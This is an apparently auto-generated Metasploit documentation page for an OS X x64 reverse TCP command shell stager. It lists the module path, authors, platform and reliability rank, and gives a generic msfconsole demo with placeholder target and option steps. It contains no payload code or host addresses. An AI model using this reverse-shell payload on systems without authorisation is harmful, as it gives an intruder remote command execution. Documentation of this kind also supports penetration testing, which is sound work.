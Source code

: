 ## OS X dup2 Command Shell, Reverse TCP Stager

dup2 socket in edi, then execve. Connect, read length, read 
buffer, execute


## Module Name
payload/osx/x64/dupandexecve/reverse_tcp

## Authors
* nemo
* nemo <nemo[at]felinemenace.org>





## Platforms
* osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/x64/dupandexecve/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    